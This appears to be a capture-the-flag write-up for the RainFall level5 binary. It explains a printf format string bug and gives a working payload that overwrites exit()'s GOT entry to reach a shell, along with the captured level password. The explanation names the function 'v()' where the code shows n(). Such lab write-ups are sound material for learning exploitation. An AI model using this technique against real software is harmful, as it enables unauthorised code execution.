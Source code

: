 ## Step 1: Static & Dynamic Analysis

```c
080484a4    void o() __noreturn
080484a4    {
080484a4        system("/bin/sh");
080484bd        _exit(1);
080484a4    }

080484c2    void n() __noreturn
080484c2    {
080484c2        void var_20c;
080484e5        fgets(&var_20c, 0x200, __bss_start);
080484f3        printf(&var_20c);
080484ff        exit(1);
080484c2    }

08048504    int32_t main(int32_t argc, char** argv, char** envp)
08048504    {
08048504        n();
08048504    }
```

### Explanation
`v()` reads user input into a buffer (`var_20c`) using `fgets()` and then passes it directly to `printf()`.
This introduces a `format string vulnerability` because `printf()` interprets format specifiers if the input contains them.

The difficulty here is that we cannot overwrite the return address to jump to `o()` because `n()` doesn't return, it calls `exit()` immediately after `printf()`.  
The solution is to overwrite the `GOT` `(Global Offset Table)` entry of `exit()` with the address of `o()`.

```asm
(gdb) disas n
Dump of assembler code for function n:
   0x080484c2 <+0>:     push   %ebp
   0x080484c3 <+1>:     mov    %esp,%ebp
   0x080484c5 <+3>:     sub    $0x218,%esp
   0x080484cb <+9>:     mov    0x8049848,%eax
   0x080484d0 <+14>:    mov    %eax,0x8(%esp)
   0x080484d4 <+18>:    movl   $0x200,0x4(%esp)
   0x080484dc <+26>:    lea    -0x208(%ebp),%eax
   0x080484e2 <+32>:    mov    %eax,(%esp)
   0x080484e5 <+35>:    call   0x80483a0 <fgets@plt>
   0x080484ea <+40>:    lea    -0x208(%ebp),%eax
   0x080484f0 <+46>:    mov    %eax,(%esp)
   0x080484f3 <+49>:    call   0x8048380 <printf@plt>
   0x080484f8 <+54>:    movl   $0x1,(%esp)
   0x080484ff <+61>:    call   0x80483d0 <exit@plt>
```

When the program call `exit()`, it first jumps to `exit@plt`, which is the `PLT` `(Procedure Linkage Table)` entry for `exit()`.

```asm
(gdb) disas
Dump of assembler code for function exit@plt:
=> 0x080483d0 <+0>:     jmp    *0x8049838
   0x080483d6 <+6>:     push   $0x28
   0x080483db <+11>:    jmp    0x8048370
End of assembler dump.
```

The first instruction jumps to the address stored in `0x8049838` (the GOT entry for `exit()`).

```asm
(gdb) x/1wx 0x8049838
0x8049838 <exit@got.plt>:       0x080483d6
```

We will replace this address with the address of `o()`.

```bash
level5@RainFall:~$ ./level5 
AAAA %x.%x.%x.%x.%x.%x.%x. 
AAAA 200.b7fd1ac0.b7ff37d0.41414141.2e782520.252e7825.78252e78.
```

Here we can see our string input is stored in fourth position from `printf()` perspective.

## Step 2: Exploiting the Binary

```bash
level5@RainFall:~$ python -c 'print "\x08\x04\x98\x38"[::-1] + "%134513824d%4$n"' > /tmp/exploit
level5@RainFall:~$ cat /tmp/exploit - | ./level5

% cat /home/user/level6/.pass
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```

The first part of the payload, `"\x08\x04\x98\x38"[::-1]`, represents the address of the `GOT` entry for `exit()` (`0x8049838`) in little-endian format. This address is injected so that `printf()` uses it as the target memory location for the write operation.

Next, the string `"%134513824d"` is used to generate a large number of printed characters. This ensures that printf()'s internal character count reaches exactly the value corresponding to the address of o() (`0x080484a4`).

Finally, the `"%4$n"` specifier tells `printf()` to write the total number of characters printed so far to the memory location specified by the fourth argument on the stack, which is the `GOT` entry for `exit()`. This effectively replaces the address of `exit()` with the address of `o()`.
